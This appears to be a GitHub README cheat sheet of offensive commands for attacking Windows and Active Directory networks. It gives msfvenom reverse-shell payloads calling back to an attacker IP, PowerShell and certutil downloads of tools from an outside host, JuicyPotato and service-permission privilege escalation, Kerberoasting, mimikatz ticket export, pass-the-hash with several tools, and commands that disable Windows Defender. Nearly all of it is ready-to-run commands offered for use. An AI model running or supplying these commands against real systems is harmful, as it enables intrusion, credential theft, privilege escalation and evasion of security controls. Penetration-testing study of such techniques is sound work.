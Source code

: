 # Windows-AD-attacking

&nbsp;
&nbsp;

Anything about **Windows / Active Directory** will be posted here :D

&nbsp;
&nbsp;

## < Generate shells >

&nbsp;
&nbsp;


**[+] Create reverse shell using msfvenom**

```
// Meterpreter

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe

// TCP

msfvenom -p  windows/shell/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
```

&nbsp;
&nbsp;

## < Transfer files >

&nbsp;
&nbsp;


**[+] Upload file using Powershell**

```
powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest http://192.168.50.48/ASREPRoast.ps1 -OutFile C:\users\hitman\ASREPRoast.ps1
```

**[+] Upload file using certutil.exe**

```
certutil.exe -urlcache -f http://192.168.50.48/Rubeus.exe C:\users\hitman\Rubeus.exe
```

**[+] Transfer files using rdesktop tool (Available in Kali Linux)**

```
- In Kali linux

mkdir /home/hitman/shared
rdesktop -f 192.168.50.48 -r disk:linux=/home/hitman/shared

- Now in Windows's RDP

Go to Network Places -> Entire Network -> Microsoft Terminal Services -> tsclient
and put your files there, you will find them in Kali too
Note: You can access the share \\tsclient directly too
```

&nbsp;
&nbsp;

## < Privilege escalation >

&nbsp;
&nbsp;


**[+] Privilege escalation using juicy potato (Sometimes you need to attach CLSID)**

```
JuicyPotato.exe -l 13373 -p c:\windows\system32\cmd.exe -a "/c c:/users/public/reverse.exe" -t *
```

**[+] PowerUp.ps1 "Good powershell script for windows privilege escalation"**

```
C:> powershell.exe -nop -exec bypass

PS C:\> Import-Module PowerUp.ps1

PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

**[+] Weak service permissions privilege escalation**

```
C:\Users\victim\Desktop>accesschk64 -uwcqv "victim" *

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW SNMPTRAP
        SERVICE_ALL_ACCESS

C:\Users\victim\Desktop>sc qc SNMPTRAP

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SNMPTRAP
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\snmptrap.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : SNMP Trap
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\victim\Desktop>sc config SNMPTRAP binpath= "net localgroup administrators victim /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc config SNMPTRAP obj= ".\LocalSystem" password= ""

[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc start SNMPTRAP
```

&nbsp;
&nbsp;

## < Kerberos / tickets >

&nbsp;
&nbsp;


**[+] Request Ticket (powershell)**

```
Add-Type -AssemblyName System.IdentityModel  

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLService/ufc-db1.us.funcorp.local"  
```

**[+] Export Tickets using mimikatz**

```
mimikatz # kerberos::list /export  
```

**[+] Crack ticket using Tgsrepcrack.py (You can use john too or hashcat)**

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.hitmanalharbi.local~1433-boo.LOCAL.kirbi  
```

**[+] Kerberos Double-Hop problem (powershell)**

```
Invoke-Command -ComputerName UFC-JUMPSRV -Credential $cred -ScriptBlock {
    Invoke-Command -ComputerName UFC-WEBPROD -Credential $Using:cred -ScriptBlock {
		& cmd /c "hostname"    
    }
} 
```

&nbsp;
&nbsp;

## < Pass the hash / PTH >

&nbsp;
&nbsp;


**[+] Pass the hash using pth-winexe (Available in Kali Linux)**

```
pth-winexe -U USER%aad3b435b51404eeaad3b435b51404ee:NTLM //IP cmd
```

**[+] Access RDP using pass the hash (xfreerdp tool)**

```
xfreerdp /u:username /pth:NTLM /d:domain /v:IP
```

**[+] Pass the hash using PsExec.py**

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:NTLM sqldevadmin@192.168.50.49
```

&nbsp;
&nbsp;

## < Enumeration >

&nbsp;
&nbsp;


**[+] enum SMB shares using smbclient (Smbclient available in Kali Linux)**

```
smbclient -L IP
```

**[+] Sharphound command (For bloodhound)**

```
// EXE version

./SharpHound.exe --CollectionMethod All

// Powershell version

Invoke-BloodHound -CollectionMethod All
```

**[+] Find interesting ACLs for specific user (Need PowerView.ps1)**

```
Invoke-ACLScanner -ResolveGUID | ? {$_.IdentityReferenceName -like "*jumpsrv*"}
```


&nbsp;
&nbsp;

## < Bypass security / AV evasion >

&nbsp;
&nbsp;


**[+] Bypass Powershell Execution Policy**

```
In Powershell you can write:

Set-ExecutionPolicy -ExecutionPolicy Unrestricted

or run powershell like this:

powershell.exe -ep bypass
```

**[+] Disable windows defender**

```
// Registry 

reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1

// Powershell

powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
```

&nbsp;
&nbsp;

## < Misc commands >

&nbsp;
&nbsp;


**[+] Enable RDP and allow it in the firewall too**

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
